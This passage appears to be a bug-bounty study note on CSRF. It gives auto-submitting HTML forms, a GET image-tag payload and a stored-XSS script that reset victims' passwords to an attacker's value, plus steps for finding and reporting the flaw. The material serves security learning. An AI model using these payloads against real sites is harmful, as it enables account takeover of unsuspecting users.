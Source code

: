 ```
POST /set_password
Host: example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
password=XXXXX&csrf_token=
```

this can automatically assign the password of any user who visits the malicious page
```html
<html>
 <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
 <input type="text" name="new_password" value="this_account_is_now_mine">
 <input type="text" name="csrf_token" value="">
 <input type='submit' value="Submit">
 </form>
 <script>document.getElementById("csrf-form").submit();</script>
</html>
```
# Delivering the CSRF Payload
- First and easiest way is by tricking users into visiting an external malicious site
- GET-CSRF `<img src="https://email.example.com/set_password?new_password=this_account_is_now_mine">` as an image posted to a forum. This way, any user who views the forum page would be affected
- using Stored XSS, an attacker can submit a stored-XSS payload there to make any forum visitor execute the attacker’s malicious script
```javascript
<script>
 document.body.innerHTML += "<form method="POST" action="https://email.example.com/set_password" id="csrf-form">
 <input type="text" name="new_password" value="this_account_is_now_mine">
 <input type='submit' value="Submit">
 </form>";
 document.getElementById("csrf-form").submit();
</script>
```


# Finding Your First CSRF!
1. Spot the state-changing actions on the application and keep a note on their locations and functionality.
2. Check these functionalities for CSRF protection. If you can’t spot any protections, you might have found a vulnerability
3. If any CSRF protection mechanisms are present, try to bypass the protection by using the protection-bypass techniques
4. Confirm the vulnerability by crafting a malicious HTML page and visiting that page to see if the action has executed.
5. Think of strategies for delivering your payload to end users.
6.  Draft your first CSRF report!
# Resources
- [Bug Bounty Bootcamp book](https://www.amazon.eg/-/en/Bug-Bounty-Bootcamp-Reporting-Vulnerabilities/dp/1718501544)
- [Rana Kalil's Video - Cross-Site Request Forgery (CSRF) | Complete Guide](https://www.youtube.com/watch?v=7bTNMSqCMI0&list=PLuyTk2_mYISKNFqao_NBzYOWvJFqhVmXN&index=1&t=1509s)
- [OWASP Cheat Sheet Series- CSRF Prevention Cheat Sheet ](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)


